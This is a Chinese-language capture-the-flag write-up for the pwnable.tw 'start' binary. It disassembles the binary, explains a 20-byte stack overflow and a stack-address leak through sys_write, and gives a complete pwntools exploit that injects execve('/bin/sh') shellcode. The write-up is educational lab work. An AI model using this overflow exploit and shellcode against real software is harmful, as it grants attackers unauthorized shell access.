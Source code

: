 ## 0x00 环境准备

* pwndbg
* pwntools

关闭地址随机化保护（方便调试）

```bash
sysctl -w kernel.randomize_va_space=0
```

## 0x01 分析

file + checksec 二连

ida 分析

```
.text:08048060                 public _start
.text:08048060 _start          proc near               ; DATA XREF: LOAD:08048018↑o
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    ':FTC'
.text:08048073                 push    ' eht'
.text:08048078                 push    ' tra'
.text:0804807D                 push    'ts s'
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 20          ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 3Ch
.text:08048095                 mov     al, 3           
.text:08048097                 int     80h             ; 
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
```

根据[系统调用号](http://syscalls.kernelgrok.com/)，得知当eax为3时，执行`sys_read`，在加上gdb调试，得到函数流程

```c
void_start(){
    char buf[20]='Let'sstarttheCTF:';
    // 往stdout写入20字节的字节数组buf
    sys_write(1,buf,20);
    // 从stdin中读取60字节到字节数组buf 
    sys_read(0,buf,60);
}
```

通过`cyclic`命令或其他pattern，得到栈溢出长度为20bytes

因此，当程序执行完`sys_read`时候，往`stdin`写入20bytes的数据，`read`函数往栈中写入了20字节，然后即覆盖main的返回地址
返回到`write`函数利用`write`泄漏栈中buf的的地址，然后继续执行到`_start`的返回地址

<!-- TODO 说明为什么不变 -->

## 0x02 调试

从标准输入（fd = 0）读入0x3c个字节到0xfffd104中去

![](assets/2019-07-29-20-36-09.png)

栈顶指针加0x14，栈空间减少了0x14个字节
ret至`sys_write`，该函数地址是不变的，一直为0x08048087

![](assets/2019-07-30-09-23-57.png)

`sys_write`参数如下，由于之前的`mov ecx,esp`，泄露出ecx寄存器中的esp栈顶地址存放的值以及之后0x14个字节，即

```py
0xffffd120
0x00000001
0xffffd2f8
0x00000000
0xffffd300
```

![](assets/2019-07-30-09-26-02.png)

从标准输入(fd=0)读入0x3c个字节到0xfffd11c中去

由之前的例子可知返回地址距离&esp栈顶地址有20个字节，由于最小的shellcode也大于20字节，所以不能直接放入leak的栈空间地址里。

所以只能放在泄露的栈空间的后面，即leak+20 = 0xffffd120+20 的地址处

见下图，返回地址的存放的栈地址是0xffffd130，泄露出的是地址是0xffffd120，因此需要让返回地址变为0xffffd134，而0xffffd134存放shellcode就行了

![](assets/2019-07-30-09-38-56.png)


## 0x03 EXP

```py
# coding:utf-8
from pwn import *

p = process("./start")
# p=remote('chall.pwnable.tw',10000)
context(log_level='debug', arch='i386', os='linux')

gadget = 0x08048087
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'


def gdb_attach(p):
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    gdb.attach(
        proc.pidof(p)[0],
        gdbscript=
            '''
            b *0x8048097    
            '''
    )


def leak():
    p.recv()
    payload = 'A' * 20 + p32(gadget)
    p.send(payload)
    return u32(p.recv(4))


def pwn(shellcode_addr):
    #                    ret shellcode_addr  run_shellcode
    payload = 'A' * 20 + p32(shellcode_addr)+shellcode
    p.send(payload)
    p.interactive()


gdb_attach(p)


shellcode_addr = leak()+20
print "Shellcode_addr = " + hex(shellcode_addr)
pwn(shellcode_addr)

```
